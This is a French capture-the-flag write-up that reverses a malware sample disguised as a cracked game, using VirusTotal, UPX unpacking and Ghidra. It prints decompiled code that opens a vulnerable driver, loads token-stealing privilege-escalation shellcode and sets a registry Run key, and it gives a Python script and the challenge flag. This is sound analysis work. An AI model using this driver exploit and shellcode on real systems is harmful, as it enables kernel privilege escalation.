



# Hack Trick

> Une de nos employées a récemment compromis son système en essayant d'installer un jeu cracké.
>
> Son anti-virus avait été désactivé et l'exécutable s'est révélé être un malware.
>
> Nous avons récupéré l'exécutable et avons désormais besoin de votre expertise pour comprendre ce que ce malware fait.

On nous fournit l'exécutable.

## Description

Avant de faire quoi que ce soit avec cet exécutable, je l'envoie sur [VirusTotal](https://www.virustotal.com/).

Je dois avouer que ça m'a fait un peu peur :



Pas question que je fasse d'analyse dynamique de ce malware, sauf peut être dans une VM.

Mais regardons d'abord en statique. J'ouvre donc l'exécutable dans Ghidra.

Voici un extrait de la fonction `main`:

```c
VirtualProtect(local_res8[0] + -0x400,0x1000,4,(PDWORD)local_res8);
*(byte *)((longlong)local_res8[0] + -0xdc9) =
    *(byte *)((longlong)local_res8[0] + -0xdc9) & 0x7f;
*(byte *)((longlong)local_res8[0] + -0xda1) =
    *(byte *)((longlong)local_res8[0] + -0xda1) & 0x7f;
uStack32 = 0x140027134;
VirtualProtect(local_res8[0] + -0x400,0x1000,0,(PDWORD)local_res8);
puVar11 = &stack0x00000030;
do {
puVar12 = puVar11 + -8;
*(undefined8 *)(puVar11 + -8) = 0;
puVar11 = puVar11 + -8;
} while (puVar12 != local_50);
        /* WARNING: Bad instruction - Truncating control flow here */
halt_baddata();
}
ppFVar9 = (FARPROC *)((ulonglong)puVar13[1] + (longlong)local_res8[0]);
puVar15 = puVar13 + 2;
uStack32 = 0x140027075;
hModule = LoadLibraryA((LPCSTR)((ulonglong)*puVar13 + 0x271dc + (longlong)local_res8[0]) );
while( true ) {
bVar18 = *(byte *)puVar15;
puVar13 = (uint *)((longlong)puVar15 + 1);
if (bVar18 == 0) break;
if ((char)bVar18 < '\0') {
puVar13 = (uint *)(ulonglong)*(ushort *)puVar13;
puVar15 = (uint *)((longlong)puVar15 + 3);
}
else {
puVar7 = puVar13;
puVar14 = puVar13;
do {
    puVar15 = puVar14;
    if (puVar7 == (uint *)0x0) break;
    puVar7 = (uint *)((longlong)puVar7 + -1);
    puVar15 = (uint *)((longlong)puVar14 + 1);
    bVar16 = *(byte *)puVar14;
    puVar14 = puVar15;
} while ((byte)(bVar18 - 1) != bVar16);
}
uStack32 = 0x14002709f;
pFVar6 = GetProcAddress(hModule,(LPCSTR)puVar13);
if (pFVar6 == (FARPROC)0x0) {
        /* WARNING: Could not recover jumptable at 0x0001400270ad. Too many branches */
        /* WARNING: Treating indirect jump as call */
ExitProcess();
return;
}
*ppFVar9 = pFVar6;
ppFVar9 = ppFVar9 + 1;
}
} while( true );
```

On voit des appels à `VirtualProtect`, `LoadLibraryA` et `GetProcAddress` : le malware est probablement empaqueté dans l'exécutable, et dépaqueté à l'exécution.

Pour le vérifier, j'envoie le malware sur [un site d'analyse de malware en ligne](https://www.hybrid-analysis.com/)



On voit qu'il y a probablement un packer utilisé.

## Unpack

Pour unpack le binaire, je suis [ce tutoriel](https://marcoramilli.com/2020/10/09/how-to-unpack-malware-personal-notes/).

Je télécharge en premier lieu [Detect it easy](https://github.com/horsicq/Detect-It-Easy), et je le lance.



Le logiciel détecte que UPX version 3.96 est utilisé sur ce binaire.

Afin d'extraire le binaire, je télécharge le packer correspondant à la bonne version sur [UPX](https://upx.github.io/), et j'unpack le binaire.

```
.\upx -d dghack\game_crack_v2.exe
```

Je peux donc l'ouvrir dans Ghidra et commencer à reverse.

## Fin

`entry` est assez complexe, mais j'ouvre toutes les fonctions une par une et je tombe sur une fonction qui semble intéressante :

```c
/* WARNING: Could not reconcile some variable overlaps */
void FUN_140001070(void)
{
  BOOL BVar1;
  DWORD DVar2;
  uint uVar3;
  ulonglong uVar4;
  ULONGLONG UVar5;
  LPDWORD hDevice;
  ULONGLONG UVar6;
  HANDLE hHandle;
  undefined8 *shellcode;
  LPDWORD lpExitCode;
  undefined8 uVar7;
  wchar_t *pwVar8;
  int iVar9;
  code *pcVar10;
  undefined8 **lpInBuffer;
  undefined8 uVar11;
  undefined auStackY344 [32];
  HKEY hkey;
  DWORD local_a0;
  DWORD local_9c;
  undefined8 *local_98;
  char local_90 [56];
  char flag [56];
  
  uVar4 = DAT_14001e008 ^ (ulonglong)auStackY344;
  local_90._0_4_ = 0x420043;
  local_90._4_4_ = 0x400038;
  local_90._8_4_ = 0x4a0046;
  local_90._12_4_ = 0x6d007a;
  local_90._16_4_ = 0x65006a;
  local_90._20_4_ = 0x4e0052;
  local_90._24_4_ = 0x46006b;
  local_90._28_4_ = 0x360035;
  local_90._32_4_ = 0x450047;
  local_90._36_4_ = 0x50006f;
  local_90._40_4_ = 0x75007c;
  local_90._44_4_ = 0x340045;
  local_90._48_8_ = 0x7700520064;
  local_9c = 0;
  local_a0 = 0;
  UVar5 = GetTickCount64();
  pcVar10 = (code *)0x3;
  uVar7 = 0;
  lpExitCode = (LPDWORD)0xc0000000;
  hDevice = (LPDWORD)CreateFileW(L"\\\\.\\Htsysm72FB",0xc0000000,3,(LPSECURITY_ATTRIBUTES)0x0,3,0 x80
                                 ,(HANDLE)0x0);
  UVar6 = GetTickCount64();
  if (3599999 < UVar6) {
    iVar9 = 1;
    uVar7 = 0;
    pcVar10 = IsUserAnAdmin_exref;
    hHandle = CreateThread((LPSECURITY_ATTRIBUTES)0x0,0,IsUserAnAdmin_exref,(LPVOID)0x0,0,
                           (LPDWORD)0x0);
    if (hHandle != (HANDLE)0x0) {
      WaitForSingleObject(hHandle,1000);
      lpExitCode = &local_a0;
      BVar1 = GetExitCodeThread(hHandle,lpExitCode);
      if ((BVar1 != 0) && (local_a0 == 1)) goto LAB_140001554;
      iVar9 = 2;
    }
    if (hDevice == (LPDWORD)0xffffffffffffffff) {
      DVar2 = GetLastError();
      print((longlong)"[!] Failed with error: %u\n",(ulonglong)DVar2,pcVar10,uVar7);
      goto LAB_140001565;
    }
    lpExitCode = hDevice;
    print((longlong)"[+] Driver handle: 0x%p\n",hDevice,pcVar10,uVar7);
    BVar1 = IsDebuggerPresent();
    if (BVar1 != 1) {
      lpExitCode = (LPDWORD)0x53;
      pcVar10 = (code *)0x3000;
      uVar7 = 0x40;
      shellcode = (undefined8 *)VirtualAlloc((LPVOID)0x0,0x53,0x3000,0x40);
      if (shellcode == (undefined8 *)0x0) {
        DVar2 = GetLastError();
        print((longlong)"[!] Failed to allocate memory with error code: %u\n",(ulonglong)DVar2,
              pcVar10,uVar7);
        goto LAB_140001565;
      }
      print((longlong)"[+] VirtualAlloc was successful!\n",lpExitCode,pcVar10,uVar7);
      if (iVar9 == 2) {
        *(undefined4 *)shellcode = 0x90909090;
        *(undefined4 *)((longlong)shellcode + 4) = 0x90909090;
        *(undefined4 *)(shellcode + 1) = 0x48515350;
        *(undefined4 *)((longlong)shellcode + 0xc) = 0x4865c031;
        *(undefined4 *)(shellcode + 2) = 0x188808b;
        *(undefined4 *)((longlong)shellcode + 0x14) = 0x8b480000;
        *(undefined4 *)(shellcode + 3) = 0xb880;
        *(undefined4 *)((longlong)shellcode + 0x1c) = 0xc3894800;
        *(undefined4 *)(shellcode + 4) = 0xe89b8b48;
        *(undefined4 *)((longlong)shellcode + 0x24) = 0x48000002;
        *(undefined4 *)(shellcode + 5) = 0x2e8eb81;
        *(undefined4 *)((longlong)shellcode + 0x2c) = 0x8b480000;
        *(undefined4 *)(shellcode + 6) = 0x2e08b;
        *(undefined4 *)((longlong)shellcode + 0x34) = 0xf9834800;
        *(undefined4 *)(shellcode + 7) = 0x48e57504;
        *(undefined4 *)((longlong)shellcode + 0x3c) = 0x3488b8b;
        *(undefined4 *)(shellcode + 8) = 0xe1800000;
        *(undefined4 *)((longlong)shellcode + 0x44) = 0x888948f0;
        *(undefined4 *)(shellcode + 9) = 0x348;
        *(undefined4 *)((longlong)shellcode + 0x4c) = 0x48585b59;
        *(undefined2 *)(shellcode + 10) = 0xc031;
        *(undefined *)((longlong)shellcode + 0x52) = 0xc3;
        print((longlong)"[+] Shellcode copied to input buffer!\n",lpExitCode,pcVar10,uVar7);
        local_98 = shellcode + 1;
        *shellcode = local_98;
        UVar6 = GetTickCount64();
        if (UVar6 - (longlong)(int)UVar5 < 0x1389) {
          uVar11 = 8;
          lpInBuffer = &local_98;
          uVar7 = 0xaa013044;
          BVar1 = DeviceIoControl(hDevice,0xaa013044,lpInBuffer,8,&local_a0,4,&local_9c,
                                  (LPOVERLAPPED)0x0);
          if (BVar1 == 0) {
            uVar3 = GetLastError();
          }
          else {
            print((longlong)"[+] Trigger succeeded!\n",uVar7,lpInBuffer,uVar11);
            print((longlong)"[+] Installing cheat...\n",uVar7,lpInBuffer,uVar11);
            flag._0_2_ = local_90._0_2_ + 1;
            flag._2_2_ = local_90._8_2_ + 1;
            flag._4_2_ = local_90._32_2_ + 1;
            flag._6_2_ = local_90._6_2_ + 1;
            flag._8_2_ = local_90._2_2_ + 1;
            flag._10_2_ = local_90._10_2_ + 1;
            flag._12_2_ = local_90._12_2_ + 1;
            flag._14_2_ = local_90._28_2_ + 1;
            flag._16_2_ = local_90._38_2_ + 1;
            flag._18_2_ = local_90._42_2_ + 1;
            flag._20_2_ = local_90._48_2_ + 1;
            flag._22_2_ = local_90._4_2_ + 1;
            flag._24_2_ = local_90._14_2_ + 1;
            flag._26_2_ = local_90._44_2_ + 1;
            flag._28_2_ = local_90._26_2_ + 1;
            flag._30_2_ = local_90._24_2_ + 1;
            flag._32_2_ = local_90._36_2_ + 1;
            flag._34_2_ = local_90._34_2_ + 1;
            flag._36_2_ = local_90._52_2_ + 1;
            flag._38_2_ = local_90._50_2_ + 1;
            flag._40_2_ = local_90._22_2_ + 1;
            flag._42_2_ = local_90._18_2_ + 1;
            flag._44_2_ = local_90._16_2_ + 1;
            flag._46_2_ = local_90._20_2_ + 1;
            flag._48_2_ = local_90._46_2_ + 1;
            flag._50_2_ = local_90._30_2_ + 1;
            uVar11 = 0;
            flag._52_2_ = local_90._40_2_ + 1;
            lpInBuffer = (undefined8 **)0x0;
            flag._54_2_ = local_90._54_2_ + 1;
            uVar3 = RegCreateKeyExW((HKEY)0xffffffff80000001,
                                    L"Software\\Microsoft\\Windows\\CurrentVersion\\Run",0,
                                    (LPWSTR)0x0,0,0x20006,(LPSECURITY_ATTRIBUTES)0x0,&hkey,
                                    (LPDWORD)0x0);
            if (uVar3 == 0) {
              pwVar8 = L"Flag";
              uVar11 = 1;
              lpInBuffer = (undefined8 **)0x0;
              uVar3 = RegSetValueExW(hkey,L"Flag",0,1,(BYTE *)flag,0x38);
              if (uVar3 == 0) {
                RegCloseKey(hkey);
                print((longlong)"[+] Cheat installed successfully!\n",pwVar8,lpInBuffer,uVar11);
                print((longlong)"[+] Closing in 5 seconds...\n",pwVar8,lpInBuffer,uVar11);
                Sleep(5000);
                CloseHandle(hDevice);
                goto LAB_140001565;
              }
            }
          }
          print((longlong)"[!] Failed with error code: %u\n",(ulonglong)uVar3,lpInBuffer,uVar11);
          goto LAB_140001565;
        }
      }
    }
  }
LAB_140001554:
  print((longlong)"[!] The cheat has failed to install for an unknown reason.\n",lpExitCode,pcVar 10,
        uVar7);
LAB_140001565:
  FUN_1400015a0(uVar4 ^ (ulonglong)auStackY344);
  return;
}
```

On voit que le flag est construit. Il s'agit principalement d'additions et de permutations entre `flag` et `local90`.

Le code python suivant permet de retrouver le flag:

```python
local90 = [0x43, 0x0, 0x42, 0x0, 0x38, 0x0, 0x40, 0x0, 0x46, 0x0, 0x4a, 0x0, 0x7a, 0x0, 0x6d, 0x0, 0x6a, 0x0, 0x65, 0x0, 0x52, 0x0, 0x4e, 0x0, 0x6b, 0x0, 0x46, 0x0, 0x35, 0x0, 0x36, 0x0, 0x47, 0x0, 0x45, 0x0, 0x6f, 0x0, 0x50, 0x0, 0x7c, 0x0, 0x75, 0x0, 0x45, 0x0, 0x34, 0x0, 0x64, 0x0, 0x52, 0x0, 0x77, 0]
mappings = [0, 8, 32, 6, 2, 10, 12, 28, 38, 42, 48, 4, 14, 44, 26, 24, 36, 34, 52, 50, 22, 18, 16, 20, 46, 30, 40, 54]

flag = [chr(local90[mappings[i]]+1) for i in range(len(local90)//2)]
print("".join(flag))
```

Flag : `DGHACK{6Qve9nFGlpFxSOfkS57}`
